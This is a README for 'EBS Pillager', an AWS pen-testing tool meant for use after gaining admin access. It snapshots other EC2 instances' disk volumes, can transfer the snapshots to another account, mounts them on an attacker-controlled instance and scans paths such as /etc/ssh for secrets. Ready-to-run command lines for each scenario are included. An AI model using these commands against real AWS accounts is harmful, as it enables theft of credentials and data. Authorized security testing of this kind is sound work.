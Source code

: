 # EBS Pillager

This is an EC2 EBS post-exploitation script. The end goal is to make your life a lot easier if you get admin in EC2 while on an AWS pen test and are interested in pillaging other instances' EBS volumes. It automates the process of creating snapshots of EBS volumes, transferring them between AWS accounts if necessary, mounting them on the attacker-controlled EC2 instance, and running Trufflehog on the EBS volume's mounted snapshot. 

## Features
- **Snapshot Creation**: Create snapshots of the root EBS volume of an EC2 instance.
- **Cross-Account Snapshot Transfer**: Optionally transfer the snapshot to a different AWS account.
- **Volume Creation**: Create a new volume from the snapshot and attach it to a target EC2 instance.
- **Volume Mounting**: Mount the created volume to a specified EC2 instance for inspection.
- **Trufflehog Scanning**: Run Trufflehog on the mounted volume to search for secrets.

## Requirements
- Python 3.x
- `boto3` library
- AWS CLI configured with necessary profiles

## Usage
### Same Account Abuse
This scenario involves creating a snapshot and mounting the volume within the same AWS account.
```
python3 ebspillage.py --src-profile $src_profile --dst-profile $dst_profile --src-region us-east-1 --dst-region us-east-1 --mount-path /root/blah --pillage --ssh-key-path ~/.ssh/id_rsa --target-ec2 i-09639c1f8c7408b0d --mount-host i-06549773ee1b5a056 --pillage-path /etc/ssh --out-file ./trufflehog.out --json
```

### Cross-Account Abuse Without Snapshot Transfer
In this scenario, the snapshot is created in one AWS account but is not transferred to the destination account. The volume is created and mounted within the source account.
```
python3 ebspillage.py --src-profile $src_profile --dst-profile $dst_profile --src-region us-east-1 --dst-region us-east-1 --mount-path /root/blah --pillage --ssh-key-path ~/.ssh/id_rsa --target-ec2 i-062fb4910e81569b1 --mount-host i-06549773ee1b5a056 --pillage-path /etc/ssh --out-file ./trufflehog.out --json
```

### Cross-Account Abuse with Snapshot Transfer
This scenario involves creating a snapshot in one AWS account, transferring it to another account, and then creating and mounting the volume in the destination account.

```
python3 ebspillage.py --src-profile $src_profile --dst-profile $dst_profile --src-region us-east-1 --dst-region us-east-1 --mount-path /root/blah --pillage --ssh-key-path ~/.ssh/id_rsa --target-ec2 i-062fb4910e81569b1 --mount-host i-06549773ee1b5a056 --pillage-path /etc/ssh --out-file ./trufflehog.out --json --transfer
```

## Arguments
- `--src-profile`: The AWS CLI profile name for the source account.
- `--dst-profile`: The AWS CLI profile name for the destination account.
- `--src-region`: The AWS region for the source account.
- `--dst-region`: The AWS region for the destination account.
- `--mount-path`: The path on the target instance where the volume will be mounted.
- `--pillage`: Flag to enable the process of creating a snapshot, creating a volume, mounting it, and running Trufflehog.
- `--ssh-key-path`: The path to the SSH key file used for connecting to the instance.
- `--target-ec2`: The EC2 instance ID for which the snapshot will be created.
- `--mount-host`: The EC2 instance ID where the volume will be mounted.
- `--pillage-path`: The path within the mounted volume where Trufflehog will be run.
- `--out-file`: The path where the Trufflehog output will be saved.
- `--json`: Flag to enable JSON output format for Trufflehog.
- `--transfer`: Flag to transfer the snapshot from the source account to the destination account.
- `--retain`: Retain the snapshot and volume after processing, instead of deleting them.

# AWS EC2 Helper Scripts

This repository contains two helper scripts, `create_ec2.sh` and `delete_all.sh`, designed to manage EC2 instances and related resources on AWS. These scripts simplify the process of creating and cleaning up EC2 instances, volumes, and snapshots.

## Scripts Overview

### `create_ec2.sh`

This script automates the creation of an EC2 instance in a specified AWS region. The script is designed to apply a specific tag (`TrufflehogTesting`) to both the EC2 instance and its associated EBS volume.

#### Usage

`bash create_ec2.sh --profile PROFILE_NAME --region REGION --instance-profile INSTANCE_PROFILE --ip-allowlist IP_ADDRESS --key KEY_NAME --image-id IMAGE_ID --instance-type INSTANCE_TYPE`

#### Parameters

- `--profile`: The AWS CLI profile to use for authentication 
- `--region`: The AWS region where the instance will be created (e.g., `us-east-1`).
- `--instance-profile`: The IAM instance profile to attach to the instance (e.g., `SMInstanceProfile`).
- `--ip-allowlist`: The IP address (or range) to allow SSH access (e.g., `1.2.3.4/32`). You can use `curl -s ifconfig.me` to automatically use your current public IP.
- `--key`: The name of the SSH key pair to associate with the instance 
- `--image-id`: The ID of the Amazon Machine Image (AMI) to use for the instance 
- `--instance-type`: The type of instance to create (e.g., `t3.micro`).

#### Example

`bash create_ec2.sh --profile YOUR_PROFILE --region us-east-1 --instance-profile SSMInstanceProfile --ip-allowlist `curl -s ifconfig.me`/32 --key YOUR_KEY --image-id YOUR_AMI_ID --instance-type t3.micro`

This command will create an EC2 instance with the tag `TrufflehogTesting` applied to both the instance and its associated EBS volume.

### `delete_all.sh`

This script automates the deletion of all EC2 instances, EBS volumes, and snapshots that have been tagged with `TrufflehogTesting`. It provides an easy way to clean up resources after testing.

#### Usage

`bash delete_all.sh --profile PROFILE_NAME --region REGION`

#### Parameters

- `--profile`: The AWS CLI profile to use for authentication  
- `--region`: The AWS region where the resources are located  

#### Example

`bash delete_all.sh --profile YOUR_PROFILE --region us-east-1`

This command will delete all EC2 instances, EBS volumes, and snapshots in the specified region that have been tagged with `TrufflehogTesting`.

### Script Details

- `create_ec2.sh`: 
  - Automatically tags EC2 instances and associated EBS volumes with `TrufflehogTesting`.
  - Configures security group rules to allow SSH access from a specified IP address.
  - Starts the instance and waits for it to be in the `running` state before outputting the public IP.

- `delete_all.sh`: 
  - Finds and deletes all EC2 instances tagged with `TrufflehogTesting`.
  - Finds and deletes all EBS volumes and snapshots tagged with `TrufflehogTesting`.
  - Ensures that resources are cleaned up thoroughly to avoid unnecessary charges.

- `setup_instance_profile.sh`:
  - Configures instance profile with the required permissions to run SSM 

- `ssm_policy.json` and `ssm_trust_policy.json`
  - Example policies that can be used for testing or your attacker ec2


### Helper Requirements

- AWS cli
- jq

## Bug Fixes (lazily not filing issues)
- [ ] Fix bug where the mount host's own filesystem gets mounted rather than the target ec2 
- [ ] Fix issue where snapshot transfer is failing 

## To Do
- [ ] Run tests with encrypted EBS volumes with various roles / AuthZ levels 
- [ ] Add functionality to work with specific KMS keys for decrypting volumes if encrypted 
- [ ] Unmount volume after trufflehog completes 

## License
This project is licensed under the MIT License.
